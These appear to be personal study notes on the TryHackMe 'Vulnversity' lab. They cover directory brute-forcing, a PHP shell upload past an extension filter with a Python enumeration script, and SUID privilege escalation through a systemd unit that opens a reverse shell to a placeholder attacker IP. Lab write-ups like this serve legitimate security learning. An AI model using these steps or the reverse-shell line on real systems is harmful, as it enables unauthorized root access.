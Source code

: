# TRY HACK ME NOTES
> LAB : Vulnversity
1. Reconnaissance  : Search active services on target system, OS, Versions
2. Bruteforce directories using gobuster to find any vulnerable entry points
     - /internal/ allowed to upload files
  
3. Check what kind of files are allowed to upload or can we execute those files
     - Use Burp or python script
     - We can upload .phtml
4. Upload a phpshell to server
5. Start a netcat session for phpshell and gain a non-privileged access
6. Persorm Linux Privilege excalation using SUID
  - How to search for all binaries with SUID bit set
   -  find / -perm -u=s -type f 2>/dev/null
   -  Identify a binary with root as owner
   -  Use https://gtfobins.github.io/gtfobins/systemctl/ to find how to exploit
   -  Created root.service with code:
   -    [Unit]
        Description=root
        
        [Service]
        Type=simple
        User=root
        ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<Attacker-IP-Address>/4242 0>&1'
        
        [Install]
        WantedBy=multi-user.target
    - Hosted file using python server
    - downloaded file to /tmp on target using wget
    - start a listner on attcker machine
    - enabled and started the service
    - We get a root access

 ISSUES/Learnings: 
 1. curly quote V/S straight quote in bash command.

 2. Python script used to enumerate file extension allowed to upload:
```
import requests
import os

ip = "<Server Ip Address >"
url = f"http://{ip}:3333/internal/index.php"

original = "index.php"
filename = "index"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(original, new_filename)

    with open(new_filename, "rb") as f:
        files = {"file": f}
        r = requests.post(url, files=files)


        if "Extension not allowed" in r.text:
            print(f"{ext} extension not allowed")
        else:
            print(f"{ext} seems to be allowed??")

    original = new_filename
os.rename(new_filename, "index.php")
```



